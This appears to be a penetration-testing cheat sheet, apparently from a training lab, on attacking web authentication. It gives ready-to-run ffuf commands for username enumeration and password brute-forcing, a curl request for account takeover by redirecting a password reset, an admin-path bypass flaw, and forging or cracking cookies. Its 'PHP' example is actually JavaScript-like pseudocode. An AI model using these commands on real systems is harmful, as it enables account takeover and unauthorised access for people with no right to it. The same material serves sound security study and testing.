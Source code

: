 # Hack users and passwords

#### Account username research

1. Create list of usernames based on eg. errors on website
2. Find endpoint where login is possible
3. Use FFUF to bypass:
```
$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" \
-H "Content-Type: application/x-www-form-urlencoded" -u http://<domain_name>/customers/signup -mr "username already exists"
```
* -w  selects the file's location on the computer that contains the list of usernames that we're going to check exists. 
* -X  specifies the request method, this will be a GET request by default, but it is a POST request in this example. 
* -d  specifies the data that we are going to send. In this example fields: username, email, password and cpassword. 
      NOTE: In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. 
* -H  used for adding additional headers to the request. In this instance, we're setting the Content-Type to the webserver knows we are sending form data. 
* -u  specifies the URL we are making the request to, and finally
* -mr the text on the page we are looking for to validate we've found a valid username.

To save only FUZZ outup in file:
```
$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" \
-H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists" -s | tee output.txt
```

4. Run FFUF with specific user and password 
```
$ ffuf -w output.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST \ 
-d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://<domain_name>/customers/login -fc 200
```

#### Account takeover

1. Create account with email in company domain
2. Run curl to reset password for other user, using your own email:
```
$ curl 'http://<domain_name>/customers/reset?email=<name>%40<email>' \
-H 'Content-Type: application/x-www-form-urlencoded' -d 'username=<name>&email=<new_email>'
```

---

## PHP code example

This PHP code checks to see whether the start of the path the client is visiting begins with /admin. 
Then further checks are made to see whether the client is, in fact, an admin. 
If the page doesn't begin with /admin, the page is shown to the client.
```
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
Three equals signs (===) means it's looking for an exact match on the string, so it's case sesitive. 
The code presents a logic flaw because an unauthenticated user can bypass the authentication checks.

---

## Cookies

1. Check Set-Cookie header when interacting with website.

2. Check status:
```
$ curl http://<domain_name>/cookie-test
```

3. Send cookies:
```
$ curl -H "Cookie: logged_in=true; admin=true" http://<domain_name>/cookie-test
```

When cookie is a hash value use:
* Hashing decryptor -> https://crackstation.net/








